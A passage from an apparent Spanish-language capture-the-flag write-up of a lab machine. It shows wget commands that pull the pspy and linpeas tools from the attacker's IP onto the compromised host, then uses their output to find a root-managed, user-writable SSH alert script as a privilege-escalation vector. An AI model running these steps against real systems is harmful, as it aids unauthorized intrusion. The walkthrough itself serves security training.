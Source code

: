 Y en la máquina víctima:
```shell
❯ svc_acc@late:~$ wget http://10.10.16.28/pspy
❯ svc_acc@late:~$ wget http://10.10.16.28/linpeas.sh
❯ svc_acc@late:~$ chmod 700 pspy; chmod 700 linpeas.sh
```

### Analizando posible vector
Ahora podemos usar linpeas o pspy para ver si hay algo de lo que nos podamos aprovechar para escalar privilegios. Ejecutando _lipeas_ en la máquina víctima nos aparece este archivo que podemos modificar, además tiene extensión _.sh_:
```shell
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path
You own the script: /usr/local/sbin/ssh-alert.sh
```

Veamos qué tiene el archivo:
```shell
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh 
#!/bin/bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"
BODY="
	A SSH login was detected.
    User:        $PAM_USER
    User IP Host: $PAM_RHOST
    Service:     $PAM_SERVICE
    TTY:         $PAM_TTY
    Date:        `date`
    Server:      `uname -a`
"
if [ ${PAM_TYPE} = "open_session" ]; then
    echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```
Si ejecutamos pspy (también en la máquina víctima) vemos que el archivo en el que podemos "escribir", constantemente el usuario _root_ lo esta copiando y nos asigna como propietarios del mismo:
```shell
CMD: UID=0    PID=29874  | /bin/bash /root/scripts/cron.sh 
CMD: UID=0    PID=29873  | /bin/sh -c /root/scripts/cron.sh 
CMD: UID=0    PID=29872  | /usr/sbin/CRON -f 
CMD: UID=0    PID=29877  | cp /root/scripts/ssh-alert.sh /usr/local/sbin/ssh-alert.sh 
CMD: UID=0    PID=29879  | chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh 
CMD: UID=0    PID=29885  | /bin/bash /root/scripts/cron.sh 
CMD: UID=0    PID=29884  | /bin/sh -c /root/scripts/cron.sh 
CMD: UID=0    PID=29883  | /usr/sbin/CRON -f 
CMD: UID=0    PID=29890  | chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh
```

Analizando el script, entendemos que envía un correo con ciertas especifícaciones cuando iniciamos sesión por SSH gracias al control de _PAM_ (por lo que nos podría sacar a patadas si ve algo inusual en los inicios de sesión...) 
